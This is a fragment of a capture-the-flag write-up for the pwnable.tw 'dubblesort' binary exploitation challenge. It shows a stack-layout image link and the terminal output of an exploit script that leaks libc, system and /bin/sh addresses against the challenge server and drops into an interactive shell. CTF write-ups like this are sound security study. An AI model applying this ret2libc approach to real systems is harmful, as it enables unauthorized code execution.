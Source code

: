 ![IMG_E65D247BB632-1](https://github.com/mhsuab/CTF/blob/master/binary_exploit/pwnable.tw/05_dubblesort/stack_structure.jpeg)



##### run the exploit script

```shell
➜ python3 solve.py                 ~/Desktop/NMLab/CTF/pwnable.tw/05_dubblesort
[*] '/Users/mindy/Desktop/NMLab/CTF/pwnable.tw/05_dubblesort/dubblesort'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
[*] '/Users/mindy/Desktop/NMLab/CTF/pwnable.tw/05_dubblesort/libc_32.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chall.pwnable.tw on port 10101: Done
libc     0xf77c7000
libcbase     0xf7617000
system     0x3a940
binsh     0x158e8b
[*] Switching to interactive mode
 Processing......
Result :
```
